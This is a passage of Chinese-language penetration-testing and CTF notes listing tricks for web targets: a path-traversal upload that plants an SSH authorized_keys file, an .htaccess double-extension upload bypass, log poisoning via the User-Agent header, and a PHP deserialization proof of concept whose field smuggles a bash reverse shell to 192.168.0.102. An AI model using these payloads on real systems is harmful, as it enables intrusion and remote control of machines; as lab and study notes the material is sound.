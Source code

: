   将 authorized_key 上传到/home/user/.ssh/  ，再私钥ssh登录，上传的路径为：

  ```
  ../../../../../../home/user/.ssh/authorized_keys
  ```

  同理拓展一下，也可以上传计划任务。

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

- 文件上传碰到 apache 服务器时，注意 `.htaccess`文件。例如：

  靶机里可能有 `.htaccess`，而且页面返回提示是：`extension not allowed, please choose a CENG file`

  把文件后缀名改为 1.php.ceng，由于.htaccess 的解析，即可成功执行 1.php.ceng

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

- 在请求交互中，遇见了用户可控的且一眼看上去是**序列化**的字符串请求，留心反序列化漏洞（一般反序列化漏洞需要白盒找源码的，注意扫描备份文件）。举个修改后得到的POC例子：

  ```
  O:8:"pingTest":3:{s:9:"ipAddress";s:63:"127.0.0.1;bash -c 'bash -i >& /dev/tcp/192.168.0.102/1314 0>&1'";s:7:"isValid";b:1;s:6:"output";s:0:"";}
  ```

  -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

- 包含日志，在UA头里写shell，ctf题里的套路

<img src=".\图片\Snipaste_2022-11-26_18-13-42.png" alt="Snipaste_2022-11-26_18-13-42" style="zoom:67%;" />

------------------------------------------

- 当我们从数据库或者源码啥的得到了一个密码的MD5值，发现爆破不出来时，尝试**翻看源码**，可能是一个加盐的MD5加密。拓展思路，得到一个密文时，加入不知道其加密方式，那么就留心网站白盒的可能性，从源码中找到自定义的加密算法，然后自己写脚本逆向解密

----

- 查看网站源码时，可能一些接口没有做成图形化，或者这个图形化的链接被隐藏了，要留心。举个例子比如文件上传：

  看看管理主页的源码信息吧，发现了这个玩意儿  `index.php?page=site_settings`

  ```html
  <div class="sidebar-list">
  			................
  			........
  				<!-- <a href="index.php?page=site_settings" class="nav-item nav-site_settings"><span class='icon-field'><i class="fa fa-cogs text-danger"></i></span> System Settings</a> -->
  					</div>
  ```
